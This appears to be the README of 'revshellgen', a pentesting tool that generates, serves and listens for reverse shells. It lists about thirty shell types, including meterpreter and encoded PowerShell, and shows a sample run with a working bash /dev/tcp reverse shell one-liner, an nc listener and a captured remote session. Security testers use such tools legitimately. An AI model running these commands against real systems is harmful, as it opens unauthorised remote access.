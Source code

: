 # Reverse Shell Generator

Simple script to generate, server and listen for reverse shells.
This is a fork of @cwinfosec revshellgen

## Usage

```
usage: revshellgen [-h] [-i IPADDR] [-p PORT] [-t SHELL_TYPE] [-l] [-L] [-s]

revshellgen -i 127.0.0.1 -p 4444 -t bash

options:
  -h, --help            show this help message and exit
  -i IPADDR, --ipaddr IPADDR
                        IP address or interface to connect back to
  -p PORT, --port PORT  Port to connect back to
  -t SHELL_TYPE, --type SHELL_TYPE
                        Type of reverse shell to generate
  -l, --list            List available shell types
  -L, --listen          Start a listener
  -s, --serve           Serve reverse shell
```

## Features

-   Automatically copy reverse shell into your clipboard using osc52
-   Can start listeners automatically
-   Can serve files on the web and copies download command to your clipboard
-   Supports usage of interfaces and domains rather than IP addresses

```
❯  ./revshellgen -i eth0 -t bash -L
[*] Generated reverse shell
[+] Contents copied to clipboard
bash -c "bash -i >& /dev/tcp/172.17.0.2/4444 0>&1"

[*] Start listener
rlwrap -cAr nc -lvnp 4444

[+] Listening on 4444
Connection from 172.17.0.2:34572
pwnpad@test:~/shared/revshellgen[pwnpad@test revshellgen]$ ls
ls
LICENSE
README.md
revshellgen
pwnpad@test:~/shared/revshellgen[pwnpad@test revshellgen]$ Exiting.
```

### Shell Types

| Type      | Description                                        | Platform |
| --------- | -------------------------------------------------- | -------- |
| asp       | ASP stageless reverse shell                        | Windows  |
| bash      | Bash reverse shell                                 | Linux    |
| java      | Java reverse shell                                 | Linux    |
| jsp       | JSP stageless reverse shell                        | Generic  |
| lin       | Linux stageless reverse shell                      | Linux    |
| lin32     | 32-bit Linux stageless reverse shell               | Linux    |
| lin-met   | Linux stageless meterpreter reverse shell          | Linux    |
| lin32-met | 32-bit Linux stageless meterpreter reverse shell   | Linux    |
| nc        | Netcat reverse shell                               | Linux    |
| nc-mkfifo | Netcat mkfifo reverse shell                        | Linux    |
| nc-win    | Windows Netcat reverse shell                       | Windows  |
| ncat      | Ncat reverse shell                                 | Linux    |
| ncat-udp  | Ncat UDP reverse shell                             | Linux    |
| ncat-win  | Windows Ncat reverse shell                         | Windows  |
| node      | NodeJS reverse shell                               | Linux    |
| perl      | Perl reverse shell                                 | Linux    |
| perl-win  | Windows Perl reverse shell                         | Windows  |
| php       | PHP reverse shell                                  | Generic  |
| ps        | Powershell reverse shell                           | Windows  |
| ps-b64    | Encoded Powershell reverse shell                   | Windows  |
| py        | Python reverse shell                               | Linux    |
| py-win    | Windows Python reverse shell                       | Windows  |
| ruby      | Ruby reverse shell                                 | Linux    |
| ruby-win  | Ruby reverse shell                                 | Windows  |
| socat     | Socat reverse shell                                | Linux    |
| telnet    | Telnet reverse shell                               | Linux    |
| war       | War stageless reverse shell                        | Generic  |
| win       | Windows stageless reverse shell                    | Windows  |
| win32     | 32-bit Windows stageless reverse shell             | Windows  |
| win-met   | Windows stageless meterpreter reverse shell        | Windows  |
| win32-met | 32-bit Windows stageless meterpreter reverse shell | Windows  |
